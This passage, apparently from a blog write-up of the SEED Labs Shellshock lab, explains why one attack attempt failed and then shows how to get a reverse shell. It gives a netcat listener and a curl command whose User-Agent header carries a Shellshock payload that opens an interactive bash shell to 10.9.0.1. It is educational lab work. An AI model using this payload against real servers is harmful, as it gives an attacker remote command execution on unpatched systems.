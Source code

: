 From the screenshot above, we can see that the server this time did not respond with an error. However, the attack was still unsuccessful.

If we make the same request to `http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi` to see how the server saves the environment variable, we discover that the server stores the data with the encoding. This simply means that code is never interpreted as a shell function but rather as a shell variable, thus the attack fails.

![task-2-h](https://github.com/iukadike/blog/assets/58455326/eeda0833-795e-48d3-ac66-4c4cdb1ac8e8)

<br>

### Creating a Reverse Shell

A reverse shell is used to establish a command shell on a system by connecting to it from an external network. Rather than having to send multiple commands for various queries, one can send a command to create a shell and use that shell to execute other commands.

This task involves creating a reverse shell for the vulnerable server. To accomplish this,

- create a Netcat listener:

  ```bash
  netcat -lvnkp 9999
  ```

- craft the following command:

  ```bash
  curl --user-agent "() { dummy;}; echo; /bin/bash -i > /dev/tcp/10.9.0.1/9999 0<&1 2>&1" www.seedlab-shellshock.com/cgi-bin/getenv.cgi
  ```

![task-3-a](https://github.com/iukadike/blog/assets/58455326/d299e494-9445-4b04-bd74-c3bb222a728d)

![task-3-b](https://github.com/iukadike/blog/assets/58455326/fc6a3e50-3554-4650-9e6d-668e3ca12962)

<details><summary>/bin/bash -i > /dev/tcp/10.9.0.1/9999 0<&1 2>&1</summary></details>

<br>

In summary, Shellshock is a security vulnerability found in the Unix/Linux Bash shell that allows attackers to execute arbitrary commands on a targeted system. It was discovered in 2014 and affected millions of systems. The vulnerability arises from a flaw in the way Bash handles environment variables. To prevent Shellshock, it is crucial to keep your system and software updated with the latest security patches.

<br>

Thanks for reading.
